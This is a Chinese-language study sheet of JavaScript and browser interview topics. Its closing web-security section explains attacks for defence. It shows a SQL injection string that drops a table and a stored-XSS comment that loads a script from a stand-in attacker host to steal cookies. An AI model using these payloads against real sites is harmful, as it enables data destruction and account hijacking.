


# Javascript 相关知识点

## JS 有哪几种数据类型

共 8 种。 其中 7 种原始类型：null、undefined、String、Number、Boolean、BigInt、Symbol

1 种复合类型: Object。除了原始类型的剩下全是复合类型，比如原生对象、数组、函数、正则、宿主对象...

（BigInt 和 Symbol 用的比较少，得了解下怎么用。

let a = 12333333333n \* 3411452222n; 可以用在一个整数字面量后面加 n 的方式定义一个 BigInt

const hugeString = BigInt("9007199254740991"); 或者调用函数 BigInt()。

let key = Symbol(42);

let obj = {}

obj[key] = 'xxx'

## 变量声明提升？let 与 var 的区别？

var 和 function 的提升，let 和 const 不提升；let 有块级作用域。

暂时性死区。创建、初始化、赋值，var 是创建后立即初始化未 undefined，let 是创建后等赋值时初始化。未初始化就使用就会报错。[资料](https://zhuanlan.zhihu.com/p/28140450)

函数提升优先级高于变量提升，且不会被同名变量声明覆盖，但是会被变量赋值后覆盖。而且存在同名函数与同名变量时，优先执行函数。

## ES 6 语法你平常能用到哪些？

let、const、箭头函数、Promise 、async/await、字符串模版、展开操作符、默认参数、import export。

## undefined 和 null 有什么区别？

相同点：都代表“空”、“未定义”。
不同点：

1. 类型不同，undefined 的类型是 undefined， null 的类型是对象（不完全准确）；

null 本身不是对象，typeof null === 'object’,是语言本身的一个 bug。其原理是不同的对象在底层都是用二进制来表示的，在 js 中二进制前 3 位是 0 即判断是为对象，null 的二进制表示是全 0，即前三位都是 0，所以执行 typeof 返回的是 object，实际上 null 为基本数据类型。

1. undefined 一般代表未初始化，null 一般代表一个尚未设置的对象的占位符。
2. undefined 在有些场景下(函数内)能重新赋值(所有有时候用 void 0 表示 undefined)，null 不能

## 地址栏输入 URL 后发生了什么

1. DNS 域名解析；（浏览器缓存、系统缓存、路由器缓存、ISP 缓存、DNS 服务器）
2. 建立 TCP 连接；
3. 发送 HTTP 请求；
4. 服务器处理请求；（web 服务器处理请求。 eg. apache、ngnix 等）
5. 返回响应结果；
6. 关闭 TCP 连接；
7. 浏览器解析 HTML；
8. 浏览器布局渲染；

## 浏览器的渲染机制

1. 解析 HTML 标签, 构建 DOM 树
2. 解析 CSS, 构建 CSSOM 树 （对象模型 object model）
3. 把 DOM 和 CSSOM 组合成 渲染树 (render tree)
4. 在渲染树的基础上进行布局, 计算每个节点的几何结构
5. 把每个节点绘制到屏幕上 (painting)

## 重绘 Repaint 和 回流 Reflow

- 重绘 绘制界面发生变化的部分（比如颜色发生变化）
- 回流 重新计算元素的几何尺寸，位置（页面节点消失，余下的节点向上移）
- 举例：
- 添加、删除、更新 DOM 节点(reflow 、repaint)
- 修改元素的 magin、padding、border（reflow、repaint）
- display: none（reflow、repaint） 节点消失，从文档流删除
- visibility: hidden（repaint）
- 修改颜色、背景色(repaint)

## 图片的请求

- 图片的加载不会影响其他资源的加载或者页面的渲染
- 不发请求的情况：
  1. css 中写了一个无效的样式（比如选择器选中了一个不存在的节点）
  2. 父亲设置了 display:none，脱离了文档流（加入节点自己设置了 display:none 也会发送请求）
- visibility:none 都会发送请求
- html 的 img 标签都会发送请求

## 阻塞解析与阻塞渲染

阻塞解析: 阻塞点后面的标签不会被解析，阻塞解析不一定阻塞其他外部资源的加载
阻塞渲染: 阻塞点后面的标签会继续被解析，img,link 等会继续发送请求获取外部资源，但不会触发页面渲染（白屏），也不会执行 JavaScript 代码。

## CSS 加载

- CSS 加载不会阻塞解析，但会阻塞渲染
- 现象：
  1. 白屏（DOM 节点已经有了，但是 css 还在获取，加载时间久，还没有绘制出来）--->样式放在 header
  2. FOUC（flash of unstyle content）先展示无样式内容，突然样式正常--->样式放在 body
- 结论： 尽量 link 标签放在 head 内部，防止出现 FOUC。但是可以通过处理（加载骨架）防止 FOUC

## JS 记载

- JS 的加载和执行会阻塞解析（JS 加载完成会立刻执行）
- 结论： 尽量把外置 JS 放在 body 最后，以便 DOM 尽快展现，同时方便 JS 操作 DOM

## 异步加载 async 与 defer

- `<script async src="script1.js"></script>`
- async: 加载和渲染后续文档元素的过程将和 script.js 的加载与执行并行 进行（异步）
- `<script defer src="script1.js"></script>`
- defer: 加载后续文档元素的过程将和 script.js 的加载并行进行（异步），但 script.js 的执行要在所有元素解析完成之后执行

- async
  async 的存在不影响 DOM 的解析和其他资源的加载， 特例独行，不保证顺序，不保证时机
- defer
  defer 存在不影响 DOM 的解析和其他资源的加载， 但是会保证在 DOM 资源准备就绪后再执行，并且对 于多个 defer 的外置 js 按顺序执行

运算符以及非严格比较的一些注意事项！[关于运算符的一些表现](https://zhuanlan.zhihu.com/p/351409061)

## 函数两种声明方式

### 函数声明

`function sum(x,y){}` ( 这种声明方式允许调用在前，声明在后)

### 函数表达式

`const sum = function (x,y) {}`

## 运行环境

- 全局环境
- 函数环境
- JS 在运行时会有执行[栈]来依次存放运行环境

## 作用域链

- 函数在运行的过程中，先从自己内部找变量
- 如果找不到，再从创建当前函数所在的作用域（词法作用域）去找，依次往上，直到全局作用域
- 注意找的是变量的此刻的状态

## 递归（自己调用自己）

-

```
const fact = n => {
  if(n === 1) return 1;
  return n *(fact(n - 1))
}
```

```
const fib = (n) => {
  if ( n === 1 || n === 2) return 1;
  return fib(n-1) + fib(n - 2)
}
```

## 字符串相关

- \ ---》 将后边的符号转译为普通符号，没有任何作用
- .length 获取字符串的长度
- str[0]字符串某一位
- str.charAt(0) 同上
- str.charCodeAt(0) 某一位的 ASCII 码
- str.search('xx')寻找某字符串的 index
- str.indexOf('xx') 同上
- str.lastIndexOf('xx')倒序寻找 xx 字符串的 index
- str.includes('xx')是否包含某字符串
- str.startsWith('c') 是否以 c 开头
- str.endsWith('x') 是否以 x 结尾
- str.substr(1,3)字符串截取，从第几位开始（包含），截取几位
- str.substring(1,3)从第几位开始（包含），到第几位结束（不包含）
- str.slice(1,3)同上
- str.split('')空字符分割字符串
- str.trim()去掉两边空白字符 // trimLeft() trimRight()
- str.toUpperCase();
- str.toLowerCase();
- str.padStart(8,'*')填充字符串，从前边开始填充*直到长度为 8

## JS 十进制 转 十六进制
从任意进制转换为10进制
parseInt(string, radix);

让10进制转换为任意进制
intValue.toString(radix)

## 数组相关

- arr[index] 获取对应的 index 的值
- arr.pop() 返回 arr 最后一项 原本 arr 会改变
- arr.includes(item) arr中是否包含这个item
- arr.push() arr 中加入一项，返回数组的新的长度 （往数组塞，返回长度）
- arr.unshift(10) arr 头部加入一项，返回数组的长度
- arr.shift() 返回 arr 拿出第一项 原本 arr 会改变
- arr.slice(start,end) 返回一个新数组，左闭右开，end 可有可无，如果没有就是到结尾
- arr.splice（a,b,c）a.开始的索引（插入则在这个 index 之前） b.删除元素的个数（返回结果 是删除的元素） c.插入的新元素 | 返回一个由删除元素组成的新数组
- arr.concat() 可以用来拼接数组（但是也可以用来浅拷贝）
- arr.join('') 空数组进行连接
- arr.reverse() 数组顺序进行倒序（会改变原来的数组）
- arr.sort() 排序 sort((a,b) =>a - b) 从小到大 sort((a,b) =>b - a)从大到小
- arr.indexOf(1) 寻找某一项的 index，找不到返回-1
- arr.lastIndexOf(1) 倒序查找，找不到返回-1
- arr.forEach(value,index,array)
- arr.every(val => val > 0) 所有回调函数都返回 true 的时候才会返回 true，否则返回 false
- arr.some(val => val > 0)有一个回调函数都返回 true 的时候就返回 true
- arr.filter(val => val > 0) 根据条件过滤出新的数组
- arr.map()遍历数组，回调函数返回值组成一个新数组返回，新数组索引结构和原数组一致，原数组不变（注意跟 foeEach 区别，forEach 没有自动创建一个新数组）
- arr.reduce(func(v1,v2), initValue)遍历数组，调用回调函数，将数组元素组合成一个值
- arr.find() 返回数组中满足提供的测试函数的第一个元素的值  否则返回 undefined。
- arr.flat(x) 方法会按照一个可指定的深度递归遍历数组，并将所有元素与遍历到的子数组中的元素合并为一个新数组返回。参数x为深度遍历层数，可以传Infinity展开任意深度


## 深拷贝
` JSON.parse(JSON.stringify(obj));`

## 浅拷贝
`[...obj]`
## JS 内置对象

- JSON.stringify
- 用于把一个值变成符合 JSON 格式的字符串
- JSON.parse
- 用于把一个符合 JSON 格式的字符串还原对象

## Date

- new Date()获取一个时间对象
- d.getTime()返回实例对象距离 1970 年 1 月 1 日 00:00:00 对应的毫秒
- d.getDate()返回实例对象对应的每个月的几号（从 1 开始）
- d.getDay()返回星期几，星期一为 1，星期日为 0
- d.getFullYear()返回四位年份
- d.getMonth() 返回月份，一月为 0，12 月为 11
- d.getHours()返回小时(0~23)
- d.getMilliseconds()返回毫秒(0~999)
- d.getMinuts()返回分钟(0~59)
- d.getSeconds()返回秒(0~59)

## Math

- Math.floor 向下取整
- Math.ceil 向上取整
- Math.round 四舍五入
- Math.abs 绝对值
- Math.max 取最大值
- Math.min 取最小值
- Math.random 随机数[0,1)

## 正则表达式

- /...../g 会被解析成正则表达式
- `new RegExp('+86\d{11}','g')`构造函数方式创建
- g -
- i -忽略大小写，默认大小写敏感
- m -多行搜索
- `regexp.test('aaa')`字符串是否符合规则,返回 boolean
- `string.search(/abc\d/)`返回匹配到的第一个结果的 index，如果没有是-1
- `string.match(/abc\d/g)`返回匹配到的 arr ['abc1','abc2']
- `string.replace(/abc\d/g,'hi')`将 abc2 替换为 hi
- `string.split(/\s/)`基于空格分离字符串，返回数组结果
- 有意义的字符，需要用\转义：( [ { \ ^ \$ | ) ? \* + .
- [abcd]中括号：匹配一个字符，可以是 abcd 任意一个
- [0-9]同理
- [a-zA-Z]匹配一个不限制大小写的字母
- [^abc]表示一个不是 a/b/c 的字符
- . 等价于匹配一个除了回车和换行以外的任意字符[^\r\n]
- \d 等价于一个数字字符[0-9]
- \D 等价于非数字字符[^0-9]
- \s 匹配一个空白字符[ \t\n\r\v\f]匹配一个空白字符
- \S 匹配一个非空白字符
- \w 匹配一个字母数字下划线[a-zA-Z0-9_]
- \W 匹配一个非单词字符
- ? 前面的字符出现 0 或者 1 次
- (+) 前面的字符出现一次或者多次
- (\*) 前面的字符出现 0 次或者多次
- {n} 前面的字符出现 n 次
- {n,m} 前面的字符出现 n 到 m 次
- {n,} 前面的字符出现至少 n 次
- /^xyz/ 必须以 xyz 开头 注意区分[^]里面的是除了
- /abc\$/必须以 abc 结尾
- /\babc\b/ 匹配时单词的 abc（左右两侧时字符串开头、结尾、中横线、空格）
- /\Babc\B/ 匹配不是单词的 abc
- 贪婪模式：默认尽可能多的匹配，如果想使用非贪婪模式，则可以在量词后加？`'12345'.match(/\d{3,5}?/g)`
- () 正则的分组，有几个括号就是\$1/2/3...
- i 不区分大小写 g 全局匹配 m 多行匹配
  前瞻
- exp1(?=exp2) 匹配后面是 exp2 的 exp1
- exp1(?!exp2) 匹配后面不是 exp2 的 exp1

## 异步与回调

- 同步任务：在主线程上等待执行任务，前一个结束后一个才会执行。
- 异步任务：不进入主线程，进入任务队列，等待任务队列通知主线程，某个异步任务可以执行了，这个任务才可以进入主线程执行。
- 回调函数，说的就是被挂起来的代码，异步任务必须指定回调函数，当主线程开始执行异步任务，就是执行异步任务的回调函数

## 原型链

- obj.**__proto__** === Class.prototype
- instanceof 用于检测构造函数的 prototype 属性是否出现在某个实例对象的原型链上

## 多个逻辑运算符

- || 或运算寻找第一个真值
- 一个或运算 || 的链，将返回第一个真值，如果不存在真值，就返回该链的最后一个值。

- && 与运算寻找第一个假值
- 与运算返回第一个假值，如果没有假值就返回最后一个值。

- 与运算 && 的优先级比或运算 || 要高。

## this简单区别


this代表当前this直属的函数的所属的对象
setTimeout, setInterval 普通函数的this指向全局window， 箭头函数的this代表当前this直属的函数的所属的对象


## 继承

- 继承可以使得子类具有父类的各种属性和方法，而不需要再次编写相同的代码。在令子类别继承父类别的同时，可以重新定义某些属性，并重写某些方法，即覆盖父类别的原有属性和方法，使其获得与父类别不同的功能。
- 写在 class 的属性和方法会挂在 prototype 上
- Object.create(proto,propsDescription) 以 proto 为原型属性创建对象{}
- hasOwnProperty 判断对象自身属性中是否具有指定的属性
- Object.assign(target, source, source1,source2....) 将所有可枚举属性,从一个或多个源对象赋值到目标对象, 返回目标对象
- Mixin 通过不使用继承的方式让一个类中的方法被其他类复用 （利用 Object.assign 实现）
- getter / setter 将对象属性绑定到查询/设置该属性时将被调用的函数
- static 静态属性 使用的时候需要用类名调用，实例没办法直接调用。可以继承
- new 一个函数： 首先创建一个空对象，执行这个函数，遇到 this 就是对这个 obj 操作，最后返回创建的新对象
- 方法的原型默认有一个 constructor，一般是指向自身 class、func
- class 对于 = 号声明的方法、变量，都会将其作为实例的属性，而对于非 = 号声明的属性，则是放在原型链上。
- 通过箭头函数定义的方法时绑定在 this 上

## 闭包

- 闭包是由函数以及声明该函数的词法环境组合而成的。该环境包含了这个闭包创建时作用域内的任何局部变量。
1、闭包是在函数创建时创建的，即有函数创建就会生成闭包；
2、闭包和其函数在同一上下文中；
3、闭包包含该作用域下的所有变量/引用地址；
4、定义函数不会创建闭包，只有创建/执行函数同时才创建闭包；

## 函数节流与函数防抖

- 防抖 debounce：如果下达命令后，在 t 毫秒时间内再次下达该命令，取消之前的命令，只执行新的命令。

```
const debounce = (func, wait) => {
        let timer = null;
        return function() {
          if (timer) {
            clearTimeout(timer);
          }
          timer = setTimeout(() => {
            func.apply(this, arguments);
          }, wait);
        };
      };
```

- 节流 throttle：从上一次命令结束开始的一定时间范围 t 内， 如果多次连续下达命令，则只执行当前时间段 t 内第一次命令。

```
const throttle = (fn, wait) => {
        let lastTime = null;
        let nowTime = null;
        return function(){
            nowTime = Date.now();
            if(!lastTime || nowTime - lastTime > wait){
                fn();
                lastTime = nowTime;
            }
        }
      };
```

## DOM 文档对象模型

- document.head/.body/.title/.location(href/search/hash/reload/assign)
- node.nodeName：元素标签名，还有个类似的 tagName
- node.nodeType：元素类型
- node.className：类名
- node.id：元素 id
- node.children：子元素列表（HTMLCollection）
- node.childNodes：子元素列表（NodeList）
- node.firstChild：第一个子元素
- node.lastChild：最后一个子元素
- node.nextSibling：下一个兄弟元素
- node.previousSibling：上一个兄弟元素
- node.parentNode：父元素
- //es3 写法，不推荐
- document.getElementById('id') //Element
- document.getElementsByClassName('class') //HTMLCollection
- document.getElementsByTagName('p') //HTMLCollection，需要转化，可以用 Array.from()或者[...类数组]的方法来便利
- document.getElementsByName('username') //NodeList，有 foreach 方法
- //ES5 写法，推荐
- document.querySelector('.box') //Element
- document.querySelectorAll('.box') //NodeList

## DOM 事件

事件绑定

- node.onclick = function(e){}
- node.addEventListener('click', function(e){})
- 在函数里面可以使用事件对象 e
- ..函数里面的 this 代表 node 本身，如果用箭头函数则没有 this（this 指向 window）

## class 操作

- 常见 API
- node.className 老方法，用起来不严谨，尽量不用
- node.classList.add
- node.classList.remove
- node.classList.contains
- node.classList.toggle

## 属性操作

- node.getAttribute('id')
- node.setAttribute('data-id','100')
- node.removeAttribute('checked')
- document.createAttribute('checked')
- node.setAttributeNode(attrNode) ==》 node.setAttributeNode(document.createAttribute('checked'))

## 元素创建

- document.createElement('div')
- 创建 DOM 节点，参数是标签名
- document.createTextNode("Hello")
- 创建文本节点，参数是字符串
- document.createDocumentFragment()
- 创建一个虚拟的 DOM，用于提升性能，避免高频 DOM 操作

## 元素复制添加修改删除

parentNode.appendChild(childNode)

- 在父亲的末尾添加元素
- parentNode.insertBefore(newNode, referenceNode)
- 把 newNode 插入到 referenceNode 元素之前
- parentNode.replaceChild(newChild, oldChild)
- 把 oldChild 替换为 newChild
- parentNode.removeChild(childNode)
- 从 parentNode 里删除 childNode
- node.cloneNode(true)
- 克隆一个元素，参数 true 的时候会深复制，也就是会复制元素及其子元素，false
  的时候只复制元素本身

## 获取样式

- 使用 getComputedStyle 获取元素计算后的样式，不要通过 node.style.属性获取

## JS 事件

- 事件是在编程时系统内发生的动作或者发生的事情（单击，双击，鼠标放置，表单内容发生变化，拖拽，页面滚动等等）

## DOM 事件流

- 三个阶段： 事件捕获阶段，处于目标阶段（可以假装不存在），事件冒泡阶段
- addEventListern('type',()=>{},true（发生在哪个阶段）)true 发生在捕获阶段调用 listener ，false 发生在冒泡阶段（默认）
- 第三个参数有两种用法，options{once 是否仅监听一次: true ||false, capture 是否捕获阶段监听:true || false, passive 是否忽略 preventDefault :true||false } 和 useCapture(true || false)
- 阻止事件传播： e.stopPropagation()
- 阻止默认事件： e.preventDefault() 比如 a 链接自动跳转或者 form 表单 input type = submit

## 事件代理

- 事件绑定代理给都元素，由父元素根据事件来源统一处理
- 实际上是事件冒泡的应用

### BOM 浏览器对象模型

- window 对象： var 声明的变量，或者 function fn（）声明，都是 window 的属性
- navigator 对象：浏览器相关的信息 navigator.userAgent
- screen 屏幕相关信息
- offsetHeight 页面文档的高度 screen.height 屏幕高度
- clientHeight 视窗高度 等价于 window.innerHeight
- window.scrollY || document.documentElement.scrollTop 当前页面滚动了多少
- element.offsetParent 距离最近的是定位元素的祖先元素
- element.offsetTop 到距离最近的是定位元素的祖先元素的距离
- element.getBoundingClientRect()在当前窗口占据多少
- element.getBoundingClientRect().top + document.body.scrollTop 元素距离页面顶部的距离
- const isShow = node => node.getBoundingClientRect().top < window.innerHeight && node.getBoundingClientRect().top > 0

### js获取鼠标坐标位置

#### clientX/Y
clientX/Y获取到的是触发点相对浏览器可视区域左上角距离，不随页面滚动而改变。
兼容性：所有浏览器均支持

#### pageX/Y
pageX/Y获取到的是触发点相对文档区域左上角距离，会随着页面滚动而改变
兼容性：除IE6/7/8不支持外，其余浏览器均支持

#### offsetX/Y
offsetX/Y获取到是触发点相对被触发dom的左上角距离，不过左上角基准点在不同浏览器中有区别，其中在IE中以内容区左上角为基准点不包括边框，如果触发点在边框上会返回负值，而chrome中以边框左上角为基准点。

兼容性：IE所有版本，chrome，Safari均完美支持，Firefox不支持

#### screenX/Y
screenX/Y获取到的是触发点相对显示器屏幕左上角的距离，不随页面滚动而改变。
兼容性：所有浏览器均支持

## 检测设备

const isAndroid = () => /android/i.test(navigator.userAgent)
const isIPhone = () => /iphone/i.test(navigator.userAgent)
const isIOS = () => /iphone|ipad/i.test(navigator.userAgent)

## 滚动

- scrollTo({top:100, left:0,behavior:'smooth'})滚动到哪里
- scrollBy({top:window.innerHeight, left:0,behavior:'smooth'})平滑滚动多少
- decodeURI()
- decodeURIComponent()
- encodeURI() 不会对 : / ? & = # 编码
- encodeURIComponent() 会对 : / ? & = # 编码

## cookie session
- token 理解为加密字符串
- cookie 最大容量 4k 记录某些页面关闭或者刷新后仍然需要记录的信息； cookie 每次发送请求时都会在请求头中。（常规后端设置，但是前端设置也可以）
- session 服务器在内存或者文件中保存每个client对应的uid，并使用加密对应其uid来判断是哪个用户的session
## JWT
- 相比于session， jwt不需要占用服务器内存或者文件。
- jwt相当于把用户uid用密文加密，然后将加密后的结果发给前端
- jwt三部分构成， header(alg) + payload(json) + signature(s), 中间用.连接
- s = 加密（私钥加密后的{uid:1}, base64(header), base64(body)）


## 如何与后端交互

- Form 表单提交： 只有 get 和 post || 有问无答，体验不佳
- AJAX 支持 XMLHttpRequest || Fetch
- WebSocket 可以由服务器端主动发起
- Object.entries () 返回一个数组，其元素是与直接在 object 上找到的可枚举属性键值对相对应的数组。
- 轮询：每隔固定时间发一次请求
- 长轮询：客户端发请求等待响应，当响应时再次发请求。 服务器端，请求到来，如果没新数据，则不发，当有新数据通知客户端，再响应

## 回调&异步

- 回调：传一个函数进去。如果多层回调就会带来回调地狱的问题
- Promise 三个状态：pending | fulfilled | rejected
- Promise.all 成功的时候返回的是一个结果数组，而失败的时候则返回最先被reject失败状态的值。
- Promise.race 得到一个最先 resolve 的结果。不管结果本身是成功状态还是失败状态。
- await 需要在 Promise 对象之前
- await 只在 async 函数内有效

  1.Promise 只能由 Pending 转化为 fulfilled 或者 rejected，fulfilled 与 rejected 不能相互转化

  2.Promise 中的 then 不添加第二个参数，这时候就会执行 catch 里面的代码

  3.Promise 的链式结构(但是有个重点是"promise 执行完毕后返回的 promise 默认进入 fulfilled 状态"，所以执行完毕后默认执行链式结构中的 resolve 回调。执行进入失败状态后，链式结构也会执行之后的 resolve 回调。)

  4.then 里面的 resolve 报错，catch 是可以捕获报错信息，then 的第二个参数不能捕获

  5.Promise 里面执行的代码可以被 then 的第二个参数捕获到,并且不会进入到 resolve，而是直接进入 reject(没有执行 resolve 代码，直接进入了 reject | 就算没有 reject 回调，还是会进入 reject 回调 | 如果不存在 then 的第二个回调，则会进入 catch)

  6.then()方法的成功或者失败回调函数，只要里面throw错误，得到的就是一个rejected的promise。

  7.then()方法的成功或者失败回调函数，执行得到的结果是一个非promise的普通值，那then()方法执行完得到的就是一个fullfilled的promise
  
  8.then()方法的成功或者失败回调函数，执行得到的返回结果还是一个promise，那就根据返回的promise的状态而决定，返回的到底是fullfilled还是rejected的promise

  （谨防看不懂）出处：[promise 的两个参数](https://blog.csdn.net/py_boy/article/details/104721946)

## 跨域

- 同源：同协议 | 同域名 | 同端口
- 同源策略的初衷：ip，数据，知识产权的保护
- 是服务器拒绝还是浏览器拒绝？： 用户浏览器拒绝（不是不发请求，而是拦截响应，不展示数据）
- 如果想跨域请求第三方接口，或者把自己的接口提供给第三方要怎么做？：JSONP | CORS | 服务器中转

## JSONP

- 原理： 同源策略只限制 ajax 请求，不限制 script 标签加载 js。可以通过 script 标签请求资源，并提前写好接收函数

```
<script>
function handleData(data) {
console.log(data)
}
</script>
<script src=“http://api.jirengu.com/getWeather.php?callback=handleData”>
```

- 浏览器会发送一个带参数的请求，服务器在收到请求后，从 callback 参数得到 handleData，然后将数据加到这个 handleData 中，假设是 handleData({data:1})，script 里的资源加载后会当成 js 执行，相当于执行 handleData({data:1})，即可在预定义的 handleData 函数里处理数据

## CORS 跨域资源共享

- 原理：在发送 ajax 请求时，浏览器发现该请求不符合同源策略，会给该请求加一个请求头：Origin。 后台收到请求后，如果确定接受请求则会再返回结果中加入一个响应头： Access-Control-Allow-Origin。 浏览器判断该响应头中是否包含当前 Origin 的值，如果有则会处理响应，我们就可以拿到响应数据，如果没有浏览器直接驳回

## 服务器代理

- 通过利用服务器转发请求来获取数据，不建议

### withCredentials：

- XMLHttpRequest 的一个属性，表示跨域请求是否提供类似 cookies,authorization headers(头部授权)或者 TLS 客户端证书这一类资格证书。（同源无效）
- Access-Control-Allow-Credentials: true ->服务器设置
- xhr.withCredentials = true; 前端设置

### sameSite

- Cookie 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求，这就是 CSRF 攻击。
- Cookie 的 SameSite 属性用来限制第三方 Cookie，从而减少安全风险。

### httponly

- 如果 cookie 中设置了 HttpOnly 属性，那么通过 js 脚本将无法读取到 cookie 信息，这样能有效的防止 XSS 攻击，窃取 cookie 内容，这样就增加了 cookie 的安全性，即便是这样，也不要将重要信息存入 cookie。

### nodejs npm yarn commonJS

- nodejs 基于 chrome v8 引擎的 JavaScript 运行环境
- LTS current 区别在于 前者是长期支持的，后者是最新版
- nodejs 是 IO 密集型（网络，磁盘读写）
- 当使用 require 时，会先从该文件夹的/node-modules 寻找，再去上一层，直到/
- package.json 中的 bin 文件就是 cli 指令
- depencies 自己项目运行依赖的模块 --save
- devDependencies 其他的依赖模块 --save-dev
- script npm 中的可执行的 bash 指令
- npx 从文件夹内去找这个指令

### 模块化

- 依赖管理
- 命名冲突
- 代码可读性
- 代码复用性

### Web安全
#### Web常见的攻击有哪些（按照出现比例）
- 跨站脚本XSS攻击
- SQL注入
- DOS攻击
- 跨站伪造CSRF
- 钓鱼网站

#### DOS攻击
- Denial-of-service attack。攻击者发送大量的请求，或者模拟大量合法用户的访问，占用服务器资源直至耗尽，使得真正有需求的用户无法访问。
这种攻击一般由黑客控制的大量“肉鸡”在同一时间发起。对服务器来说，攻击者本身就是访问自己的“普通”用户，自己因无法承载如此多用户的请求而宕机。对于此类攻击防范成本极高。

#### 钓鱼网站
用户通过搜索引擎或者跳转链接进入仿冒(UI、域名和正版网站很相似)的网站，用户在仿冒仿站输入了用户名和密码，导致账户信息泄漏。

#### SQL注入
SQL注入是一种代码注入技术，攻击者可以将恶意SQL语句插入到输入字段中以执行。
比如有这样一个功能：网站前端有一个查询输入框，输入用户输入的姓名查询并展示拥有该姓名的所有用户。当后端接收到查询参数后，做sql语句的拼接，然后执行sql，返回查询结果。

```
let userName = req.body.userName
let sql = "SELECT * FROM users WHERE name = '" + userName + "';"
exec(sql)
```
当用户输入的查询参数是这些字符时：
```
a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't
```
最终相当于执行
```
let sql = "SELECT * FROM users WHERE name = 'a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't';"
```

一次查询就能删库。当然也能做其他任何数据库操作。

#### 应对措施
- 方法1：使用ORM库，调用API，而不是直接运行SQL语句
- 方法2：在运行SQL语句前对拼接的查询字段进行转义
- 方法3：对数据库操作权限也做适当配置，比如不允许删库，能减小损失

### XSS攻击
Cross-site scripting (XSS) 。由于网站存在漏洞，使得攻击者可以在网站输入恶意代码，并让恶意代码在其他用户浏览器运行，窃取用户信息。

#### 非持久型攻击
1. 小花爱逛淘宝，在访问淘宝网时会输入用户名、密码进行登录，登录成功后浏览器和服务器分别保存认证Cookie用于识别小花的身份。
2. 攻击者发现淘宝网的商品搜索栏有XSS漏洞：
  a. 当攻击者在搜索栏搜索商品"手机"时，页面会展示“手机 100条查询结果”，页面的URL会变成 http://taobao.com/search?q=手机。
  b. 当攻击者搜索“手机`<script>alert('xss')</script>`” 时，页面会展示“手机 100条查询结果”，同时页面会弹出Alert弹窗。 此时，攻击者就发现了该网站漏洞。
3. 攻击者构造链接 “http://taobao.com/search?q=手机`<script>恶意代码</script>`” 并把链接通过各自社交平台发布，并配上诱人广告语：“淘宝女神节手机3折，仅限1000名用户”。
4. 小花看到广告后，点开链接，发现确实进入淘宝官方网站，并没发现3折的手机，也没把这事放心上。
5. 但实际上恶意代码已经在小花浏览器执行，因为小花的淘宝处于已登录状态，恶意代码可以获取小花的Cookie，也能“看”到小花的所有信息，并模拟小花的所有操作。

#### 持久型攻击
1. 攻击者发现淘宝的商品详情页的商品评论框有XSS漏洞
2. 攻击者发了一条评论，内容是："宝贝物美价廉，买到就是赚到`<script src='http://xss.com/attack.js'>`"。这个消息会展示在评论列表，其中的script标签会潜入到页面
3. 其他用户打开该商品详情页，阅读评论的同时实际上恶意代码已经在偷偷执行。攻击者会获取用户的Cookie劫持用户信息，也可以模拟用户再次发送包含恶意代码的评论，实现类似蠕虫病毒的传播模式。

#### 防范措施
1. 对富文本编辑器，过滤script等不安全标签
